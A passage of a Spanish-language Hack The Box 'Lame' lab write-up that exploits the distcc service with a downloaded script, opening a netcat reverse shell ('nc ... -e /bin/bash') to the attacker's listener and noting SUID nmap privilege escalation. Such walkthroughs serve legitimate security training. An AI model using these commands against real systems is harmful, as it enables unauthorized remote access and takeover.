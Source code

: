 ```
Nos indica que para poder explotar esta vulnerabilidad la única manera de hacerlo es mediante Metasploit, pero en certificados de renombre como el OSCP, está prohibido
el uso de herramientas automáticas, así que habrá que buscar otra manera de explotar esta vulnerabilidad. Con una rápida búsqueda en Internet, ya tenemos scripts para
realizar el ataque.

![](/assets/images/htb-writeup-lame/16.PNG)
  
Investigo el código de uno de los scripts y montamos el script:
  
![](/assets/images/htb-writeup-lame/17.PNG)

```
┌──(blacksheep4㉿bluedragon)-[~/Escritorio/HTB/Lame]
└─$ nc -nlvp 1403                                   
listening on [any] 1403 ...  

```
  
Por otro lado ejecutamos el script descargado:

`chmod +x distcc.py`
`./distcc.py -t <ip_target> -p 3632 -c "nc <ip_address 1403 -e /bin/bash>"`

Ejecutando este script estamos entablando una Reverse Shell para obtener RCE (Remote Code Execution) / Ejecución Remota de Comandos.
  
![](/assets/images/htb-writeup-lame/19.PNG)

Habriamos accedido directamente al servidor! Pudiendo localizar la flag de usuario.
![](/assets/images/htb-writeup-lame/20.PNG)
  
La escalada de privilegios es mediante SUID. Hay un binario: nmap, al ser una versión antigua cuenta con el modo interactivo, pudiendo hacer uso de este para escalar
privilegios. No lo comento por que por razones que desconozco fue imposible para mi llegar a root de esta manera. Pero en inicio es una forma de llegar a root. :)  

